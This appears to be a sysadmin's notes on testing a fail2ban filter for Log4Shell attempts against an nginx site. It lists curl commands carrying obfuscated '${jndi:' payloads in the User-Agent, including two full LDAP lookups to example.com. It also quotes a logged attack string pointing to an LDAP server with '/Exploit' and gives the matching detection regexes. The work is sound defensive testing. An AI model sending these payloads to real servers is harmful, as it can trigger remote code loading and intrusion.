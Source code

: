 ```
curl -X GET -A '/$%7bjndi:' -skD - https://$domain
curl -X GET -A '%24%7bjndi:' -skD - https://$domain
curl -X GET -A '$%7Bjndi:' -skD - https://$domain
curl -X GET -A '%2524%257Bjndi' -skD - https://$domain
curl -X GET -A '%2F%252524%25257Bjndi%3A' -skD - https://$domain
curl -X GET -A '${jndi:${lower:' -skD - https://$domain
curl -X GET -A '${::-j}${' -skD - https://$domain
curl -X GET -A '${jndi:nis' -skD - https://$domain
curl -X GET -A '${jndi:nds' -skD - https://$domain
curl -X GET -A '${jndi:corba' -skD - https://$domain
curl -X GET -A '${jndi:iiop' -skD - https://$domain
curl -X GET -A '${${env:BARFOO:-j}' -skD - https://$domain
curl -X GET -A '${::-l}${::-d}${::-a}${::-p}' -skD - https://$domain
curl -X GET -A '${base64:JHtqbmRp' -skD - https://$domain
curl -X GET -A '/Basic/Command/Base64/' -skD - https://$domain
curl -X GET -A '${jndi:${lower:l}${lower:d}a${lower:p}://example.com/a}' -skD - https://$domain
curl -X GET -A '${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}//example.com}' -skD - https://$domain
```

Testing fail2ban regex for filter action `/etc/fail2ban/filter.d/nginx-log4j.conf`. Notice while testing, live request was logged for `/$%7Bjndi:ldap://45.xxx.xxx.xxx:1389/Exploit%7D` so readjusted my fail2ban filter action to account for it in future. Also regex accounts for attackers using invalid methods i.e. WHATEVER rather than just match on GET request methods.

This is just an excerpt with some entries removed to make it easier to read.

```
fail2ban-regex "/home/nginx/domains/log4j.domain.com/log/access.log" /etc/fail2ban/filter.d/nginx-log4j.conf --print-all-matched

Running tests
=============

Use   failregex filter file : nginx-log4j, basedir: /etc/fail2ban
Use         log file : /home/nginx/domains/log4j.domain.com/log/access.log
Use         encoding : UTF-8


Results
=======

Failregex: 62 total
|-  #) [# of hits] regular expression
|   1) [26] ^<HOST> .*"(GET|HEAD|POST|PUT|PATCH|DELETE|.*).*\$?\{?jndi:(ldap[s]?|rmi|dns|iiop|corba|nds|http|\$\{lower).*
|   2) [36] ^<HOST> .*"(GET|HEAD|POST|PUT|PATCH|DELETE|.*).*\$?\{?((lower|upper):j(ndi)?|{::-j}|{::-n}|{::-d}|{::-i}|{(lower|upper):(rmi|n|d|i|ı)}|env:ENV_NAME|env:TEST:|env:BARFOO:-j|7(b|B)j|base64:JHtqbmRp|\/Basic\/Command\/Base64\/).*
`-

Ignoreregex: 0 total

Date template hits:
|- [# of hits] date format
|  [86] Day(?P<_sep>[-/])MON(?P=_sep)ExYear[ :]?24hour:Minute:Second(?:\.Microseconds)?(?: Zone offset)?
`-

Lines: 86 lines, 0 ignored, 60 matched, 26 missed
[processed in 0.06 sec]

|- Matched line(s):
|  xxx.xxx.xxx.xxx - - [13/Dec/2021:05:16:57 +0000] "GET / HTTP/2.0" 200 6592 "-" "${jndi:ldap"
```
